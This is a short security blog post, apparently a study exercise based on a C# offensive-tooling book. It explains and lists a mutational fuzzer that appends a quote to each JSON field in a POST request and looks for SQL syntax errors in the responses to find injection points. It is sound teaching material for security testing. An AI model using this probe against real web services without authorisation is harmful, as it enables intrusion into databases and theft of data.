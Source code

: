 ```yaml
---
title: Creating a mutational fuzzer to fuzz JSON requests for possible sqli errors.
date: 2021-06-05 16:45:47 +07:00
categories: greyhatcch2
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Creating a mutational fuzzer to fuzz JSON requests for possible sqli errors.
---
```


## This Program is a basic mutational fuzzer that will now fuzz JSON requests to generate errors to validate a possible sql vulnerability.

- We open our request file using the `File.OpenRead() method` and pass the file stream returned to the `StreamReader` constructor which after being instantiated reads all data using the `ReadToEnd() method` .
- We create a `JObject` to programatically iterate and parse the json using the `Json.Net library`.
- We use the `DeepClone() method` that will get a seperate object to be operated on that is identical to the first as we can't alter the objects we iterate over.
- Weakly developed and a majority of developed apps don't care if the value type changes. We use this functionality to convert integers to strings and fuzz them after as we would a normal string var.
- We build our http request using the` HttpWebRequest method` as before and send it using the `Stream.Write() method`. 
- We then use the try/catch block to catch any exceptions and match them to return true if so validating the sql error.


### Code:

```Csharp
using System;
using System.Net;
using System.Net.Sockets;
using System.IO;
using System.Reflection;
using Newtonsoft.Json.Linq;

namespace JSON_Fuzzer
{
    class Program
    {
        static void Main(string[] args)
        {
            string url = args[0];
            string requestFile = args[1];
            string[] request = null;
            
            using (StreamReader rdr = new StreamReader(File.OpenRead(requestFile)))
                request = rdr.ReadToEnd().Split('\n');
            
            // Last element of request array
            string json = request[request.Length - 1];
            JObject obj = JObject.Parse(json);

            Console.WriteLine("[+] Fuzzing POST requests to URL : " + url);
            IterateAndFuzz(url, obj);            
        }

        private static void IterateAndFuzz(string url, JObject obj)
        {
            foreach (var pair in (JObject)obj.DeepClone())
            {
                // Checking for str, int type 
                if (pair.Value.Type == JTokenType.String || pair.Value.Type == JTokenType.Integer)
                {
                    Console.WriteLine("\n\rFuzzing Key : " + pair.Key);

                    if (pair.Value.Type == JTokenType.Integer)
                        Console.WriteLine("Converting Int type to a String in order to fuzz.");

                    JToken oldVal = pair.Value;
                    obj[pair.Key] = pair.Value.ToString() + "'";

                    if (Fuzz(url, obj.Root))
                        Console.WriteLine("--> SQL Injection vector found at: " + pair.Key);
                    else
                        Console.WriteLine(pair.Key + " does not seem vulnerable to this SQL injection vector.");

                    obj[pair.Key] = oldVal;
                }
            }                 
        }

        private static bool Fuzz(string url, JToken obj)
        {
            byte[] data = System.Text.Encoding.ASCII.GetBytes(obj.ToString());

            HttpWebRequest req = (HttpWebRequest)WebRequest.Create(url);
            req.Method = "POST";
            req.ContentLength = data.Length;
            req.ContentType = "application/javascript";

            using (Stream stream = req.GetRequestStream())
                stream.Write(data, 0, data.Length);

            try
            {
                req.GetResponse();
            }
            catch (WebException e)
            {
                string resp = string.Empty;
                using (StreamReader r = new StreamReader(e.Response.GetResponseStream()))
                    resp = r.ReadToEnd();

                return (resp.Contains("syntax error") || resp.Contains("unterminated"));
            }

            return false;
        }
    }
}
```

## Output:

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/csharp/greyhatc/Ch2/Json_sql_fuzzer/json_sql_fuzer.PNG)

